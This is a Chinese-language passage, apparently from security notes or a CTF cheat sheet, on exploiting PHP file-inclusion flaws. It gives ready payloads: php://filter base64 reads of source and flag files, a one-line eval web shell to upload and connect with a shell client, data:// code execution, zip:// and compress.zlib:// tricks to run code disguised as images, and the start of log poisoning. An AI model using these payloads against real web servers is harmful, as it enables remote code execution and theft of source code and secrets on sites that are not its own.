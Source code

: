   *用于读取文件：*
  
  ```
  ?page=php://filter/read=convert.base64-encode/resource=index.php
  // 将php文件通过base64编码读出（"read="可以省略），若不用base64编码，php文件就会作为脚本执行，无法输出源代码。
  
  ?file=php://filter/read=convert.base64-encode/resource=flag.php
  //读取文件源码
  ```
  
  *用于解析（执行）文件，可用于getshell：*
  
  ```
  用于GetShell（shell.txt需通过文件上传在目标服务器上）：
  木马文件（shell.txt）内容：<?php @eval($_POST['x']);?>
  
  然后菜刀连接 http://localhost/test.php?file=php://filter/resource=./1.txt 即可。
  ```

### `data://`

`http://127.0.0.1:8080/include.php?filename=data://text/plain,<?php%20phpinfo(); ?>`

![image-20220805094336370](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805094336370.png)

### `zip://`

压缩流，可以访问压缩文件中的子文件，将子文件的内容当做 php 代码执行。

**不受 allow_url_fopen、allow_url_include 影响。**

```
?page=zip://D:/phpStudy/WWW/file.zip%23code.txt

格式：
zip://[压缩包绝对路径]#[压缩包内的子文件名]
注：文件路径必须为绝对路径；zip文件后缀名可以改为其他如图片后缀；#进行url编码为%23
```

### `zlib://`、`bzip2://`

压缩流，可以访问压缩文件中的子文件，将子文件的内容当做 php 代码执行

**不受 allow_url_fopen、allow_url_include 影响。**

```
?page=compress.zlib://file.zip
注：文件路径无绝对路径限制；zlib://协议文件压缩为zip或gz都可以，bzip2://协议文件压缩为bz2；后缀名也可以改为其他，如图片后缀
```

## 各种文件包含

### 包含Apache日志文件

WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。
